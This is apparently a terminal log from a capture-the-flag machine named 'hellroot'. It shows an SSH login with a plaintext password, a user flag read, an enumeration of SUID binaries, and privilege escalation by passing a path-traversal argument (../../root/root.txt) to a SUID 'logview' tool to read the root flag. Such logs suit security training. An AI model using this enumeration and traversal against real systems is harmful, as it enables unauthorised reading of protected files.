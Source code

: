 astro@192.168.69.6's password: wj2UI4f207RC58nNx31gBUiBYSPEK27JxvRNBYbP6UWZpqeoWS


====================================================================================================================================================================================


astro@hellroot:~$ 
astro@hellroot:~$ whoami
astro
astro@hellroot:~$ ls
user.txt
astro@hellroot:~$ cat user.txt 
f220dcf45ccfc10c4c44ea8c413186f2
astro@hellroot:~$ 
astro@hellroot:~$ 
astro@hellroot:~$ 


astro@hellroot:~$ find / -perm -4000 -type f 2>/dev/null
/usr/local/bin/secmonitor
/usr/local/bin/logview
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/chfn
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
astro@hellroot:~$ 





logview ../../root/root.txt




astro@hellroot:~$ 
logview ../../root/root.txt
[logview] Running with administrative privileges
Displaying log: /var/log/../../root/root.txt
f039facf1ae0d69b07484df1c4da32df
astro@hellroot:~$ 

